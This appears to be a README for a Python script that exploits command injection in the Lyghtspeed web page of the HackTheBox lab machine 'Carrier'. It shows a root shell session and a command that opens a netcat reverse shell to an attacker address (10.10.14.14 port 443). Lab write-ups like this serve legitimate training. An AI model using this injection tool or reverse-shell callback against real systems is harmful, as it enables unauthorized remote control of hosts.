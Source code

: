 ## Challenge

[Carrier](https://www.hackthebox.eu/home/machines/profile/155) from Hackthebox.eu

## Description

Provides a shell via the RCE command injection in the Lyghtspeed webpage.

## Reference

Originally published in blog posts: https://0xdf.gitlab.io/2019/03/16/htb-carrier.html#scripted-shell

## Dependencies

- python cmd
- python requests

## Usage

```
root@kali# ./carrier-rce2.py
root@r1# id
uid=0(root) gid=0(root) groups=0(root)
root@r1# pwd
/root
root@r1# ls
stuff
test_intercept.pcap
user.txt
```

Can get a nc callback shell with:
```
root@r1# shell 10.10.14.14 443
```
